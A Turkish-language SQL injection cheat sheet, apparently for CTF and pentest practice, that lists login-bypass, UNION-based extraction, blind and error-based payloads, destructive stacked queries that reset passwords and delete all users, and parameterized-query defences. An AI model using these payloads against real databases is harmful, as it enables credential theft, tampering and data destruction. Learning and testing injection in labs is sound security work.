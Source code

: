 **SQL Injection**, kullanıcı girdisinin **kontrolsüzce SQL sorgularına** eklenmesiyle ortaya çıkar. 🚨  
Saldırganlar bu sayede **veri çalabilir, değiştirebilir veya sistem manipüle edebilir**. 💻🕵️

---

## 🔹 1️⃣ Temel Kullanım – Login Bypass

```sql
' OR '1'='1                 -- Basit bypass, her zaman doğru
' OR username='admin' --     -- Admin login atlatma
' UNION SELECT username, password FROM users; --   -- Tüm kullanıcıları listeleme
```

💡 **İpucu:** Basit OR koşulları ve UNION sorguları, başlangıç için en çok kullanılan yöntemlerdir.

---

## 🔹 2️⃣ Veri Tabanı ve Tablo Keşfi

```sql
' UNION SELECT table_name, null FROM information_schema.tables; -- Tabloları öğren
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'; -- Kolonlar
```

📂 **Hedef:** Önce hangi tablolar ve kolonlar var, öğrenmek.

---

## 🔹 3️⃣ Veri Çekme (Exfiltration)

```sql
' UNION SELECT username, (SELECT password FROM users WHERE username='admin') FROM dual; -- Admin şifresi
' UNION SELECT username, password FROM users WHERE username=0x61646D696E; -- Hex ile 'admin'
```

💥 **Hack & CTF:** Özel veri sızdırmak için alt sorgular ve hex kodları kullanılır.

---

## 🔹 4️⃣ Veri Değiştirme / Silme

```sql
' ; UPDATE users SET password='hacked' WHERE username='alice'; -- Şifre değiştirme
' ; DELETE FROM users; -- Tüm verileri sil
```

⚠️ **Dikkat:** Gerçek sistemlerde riskli! Test ortamında çalıştırın.

---

## 🔹 5️⃣ Blind SQL Injection

```sql
' AND SUBSTRING(password,1,1)='a' -- Boolean tabanlı
' OR IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) -- Zaman tabanlı
```

⏳ **Zor durum:** Veri görünmüyorsa boolean ve zaman tabanlı teknikler kullanılır.

---

## 🔹 6️⃣ Error-Based SQL Injection

```sql
' AND 1=CONVERT(int,(SELECT @@version)) -- Hatalardan veritabanı sürümü öğren
```

🛠️ **Hedef:** Veritabanı bilgilerini hata mesajlarından çıkarmak.

---

## 🔹 7️⃣ Second-Order SQL Injection

```sql
-- Kullanıcı girdisi önce kaydedilir
test' OR '1'='1
-- Sonra başka sorguda tetiklenir
```

🔄 **Karmaşık senaryo:** Girdi ilk aşamada zararsız görünür, sonra tetiklenir.

---

## 🔹 8️⃣ Parametrized Queries / Korunma

```python
# Python
cursor.execute("SELECT * FROM users WHERE username=%s AND password=%s", (user, passwd))
```

```php
# PHP PDO
$stmt = $pdo->prepare('SELECT * FROM users WHERE username=? AND password=?');
$stmt->execute([$user, $passwd]);
```

✅ **Öneri:** Parametrized queries ve prepared statements her zaman güvenli.

---

## 🔹 9️⃣ CTF / Pentest Workflow – Strateji

1. **Login bypass denemeleri**
	```sql
    ' OR '1'='1                                                                    ' 
	' OR username='admin' --
    ```   
    
2. **Tablo ve kolon keşfi**
    
    ```sql
    ' UNION SELECT table_name, null FROM information_schema.tables; --
    ' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='users'; --
    ```
    
3. **Veri sızdırma**
    
    ```sql
    ' UNION SELECT username, password FROM users; --
    ' UNION SELECT username, (SELECT password FROM users WHERE username='admin') FROM dual; --
    ```
    
4. **Blind injection (zor durumda)**
    
    ```sql
    ' AND SUBSTRING(password,1,1)='a' --
    ' OR IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0) --
    ```
    
5. **Veri değiştirme / silme (kritik testlerde dikkat!)**
    
    ```sql
    ' ; UPDATE users SET password='hacked' WHERE username='alice'; --
    ' ; DELETE FROM users; --
    ```
    

---

## 🔹 1️⃣0️⃣ Özet

- **SQL Injection =** Kullanıcı girdisinin kontrolsüzce SQL sorgusuna eklenmesi
    
- **Riskler =** Veri sızdırma, değiştirme, yetki ele geçirme
    
- **Korunma =** Parametrized queries ✅, input validation ✅, minimum yetki 🔒
    
- **CTF odaklı =** Login bypass, tablo keşfi, veri sızdırma ve blind teknikler 🌟
    

---
